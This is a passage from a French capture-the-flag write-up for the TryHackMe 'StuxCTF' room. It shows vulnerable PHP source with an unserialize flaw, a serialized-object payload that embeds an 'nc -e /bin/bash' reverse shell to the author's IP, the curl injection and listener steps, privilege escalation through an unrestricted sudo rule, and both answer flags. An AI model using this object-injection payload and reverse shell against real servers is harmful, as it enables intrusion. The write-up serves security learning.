ICAgICAgICAgIDxkaXYgY2xhc3M9Imp1bWJvdHJvbiI+PGJyIC8+CgkJCQk8Y2VudGVyPjxiciAvPgoJCQkJCTxoMT5Gb2xsb3cgdGhlIHdoaXRlIHJhYmJpdC4uPC9oMT48YnIgLz4KCQkJCTwvY2VudGVyPjxiciAvPgogICAgICAgICAgICA8L2Rpdj48YnIgLz4KICAgICAgICA8L2Rpdj4gICAgICAgICAgICA8YnIgLz4KICAgICAgICA8c2NyaXB0IHNyYz0iYXNzZXRzL2pzL2pxdWVyeS0xLjExLjMubWluLmpzIj48L3NjcmlwdD48YnIgLz4KICAgICAgICA8c2NyaXB0IHNyYz0iYXNzZXRzL2pzL2Jvb3RzdHJhcC5taW4uanMiPjwvc2NyaXB0PjxiciAvPgogICAgPC9ib2R5PjxiciAvPgo8L2h0bWw+PGJyIC8+Cg==" | base64 -d
<br />
error_reporting(0);<br />
class file {<br />
        public $file = "dump.txt";<br />
        public $data = "dump test";<br />
        function __destruct(){<br />
                file_put_contents($this->file, $this->data);<br />
        }<br />
}<br />
<br />
<br />
$file_name = $_GET['file'];<br />
if(isset($file_name) && !file_exists($file_name)){<br />
        echo "File no Exist!";<br />
}<br />
<br />
if($file_name=="index.php"){<br />
        $content = file_get_contents($file_name);<br />
        $tags = array("", "");<br />
        echo bin2hex(strrev(base64_encode(nl2br(str_replace($tags, "", $content)))));<br />
}<br />
unserialize(file_get_contents($file_name));<br />
<br />
<!DOCTYPE html><br />
    <head><br />
        <title>StuxCTF</title><br />
	<meta charset="UTF-8"><br />
        <meta name="viewport" content="width=device-width, initial-scale=1"><br />
        <link rel="stylesheet" href="assets/css/bootstrap.min.css" /><br />
        <link rel="stylesheet" href="assets/css/style.css" /><br />
    </head><br />
        <body><br />
        <nav class="navbar navbar-default navbar-fixed-top"><br />
          <div class="container"><br />
            <div class="navbar-header"><br />
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar"><br />
                <span class="sr-only">Toggle navigation</span><br />
              </button><br />
              <a class="navbar-brand" href="index.php">Home</a><br />
            </div><br />
          </div><br />
        </nav><br />
        <!-- hint: /?file= --><br />
        <div class="container"><br />
            <div class="jumbotron"><br />
				<center><br />
					<h1>Follow the white rabbit..</h1><br />
				</center><br />
            </div><br />
        </div>            <br />
        <script src="assets/js/jquery-1.11.3.min.js"></script><br />
        <script src="assets/js/bootstrap.min.js"></script><br />
    </body><br />
</html><br />

```

On décode la chaîne en base64.   

Ici on a un faille unserialize.   
On peut modifier les données de la class à notre avantage.   
[plus d'information](https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/)

```php
tim@kali:~/Bureau/tryhackme/write-up$ cat remote.php 
<?php
class file
{
 public $file = 'remote.php';
 public $data = '<?php shell_exec("nc -e /bin/bash 10.9.228.66 1234"); ?>';
}

echo (serialize(new file));

?>
```

On construit notre exploit.  

```bash
php remote.php > remote.txt
```

On sérialise notre exploit. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

On créer un serveur http pour injecter le fichier remote.txt.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://stux.thm//47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=http://10.9.228.66:8000/remote.txt
```

On injecte le fichier remote.txt

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute sur le port 1234 pour se connecter sur le reverse shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://stux.thm//47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/remote.php
```

**user.txt**


On exécute le reverse shell.   

```bash
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.77.28] 46586
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

python3 -c "import pty;pty.spawn('/bin/bash')"
<2704977050807800832928198526567069446044422855055$ ls /home/
ls /home/
grecia

ls -al /home/grecia
total 44
drwxr-xr-x 4 grecia grecia 4096 Aug  8  2019 .
drwxr-xr-x 3 root   root   4096 Aug  8  2019 ..
-rw------- 1 grecia grecia 6237 Aug  8  2019 .bash_history
-rw-r--r-- 1 grecia grecia  220 Aug  8  2019 .bash_logout
-rw-r--r-- 1 grecia grecia 3771 Aug  8  2019 .bashrc
drwx------ 2 grecia grecia 4096 Aug  8  2019 .cache
drwxrwxr-x 2 grecia grecia 4096 Aug  8  2019 .nano
-rw-r--r-- 1 grecia grecia  655 Aug  8  2019 .profile
-rw-r--r-- 1 grecia grecia    0 Aug  8  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 grecia grecia  183 Aug  8  2019 .wget-hsts
-rw-rw-r-- 1 grecia grecia   33 Aug  8  2019 user.txt
<2704977050807800832928198526567069446044422855055$ 
<2704977050807800832928198526567069446044422855055$ cat /home/grecia/user.txt

cat /home/grecia/user.txt
0b6044b7807dd100b9e30f1bd09db53f
```

On est sous l'utilisateur www-data.  
On voit que on a les droits pour lire le fichier user.txt.  
On le lit et on a le flag.   

La réponse est : 0b6044b7807dd100b9e30f1bd09db53f    

**root.txt**

```bash
<2704977050807800832928198526567069446044422855055$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
```

On voit que la configuration de sudo nous permet d'exécuter n'importe quel programme avec les droits admin.  

```bash
<2704977050807800832928198526567069446044422855055$ sudo sh
sudo sh
# cat /root/root.txt
cat /root/root.txt
0028454003b42601548df551b738976c
```

On obtient un shell avec les droits root.   
On lit le dernier flag.   

La réponse est : 0028454003b42601548df551b738976c  
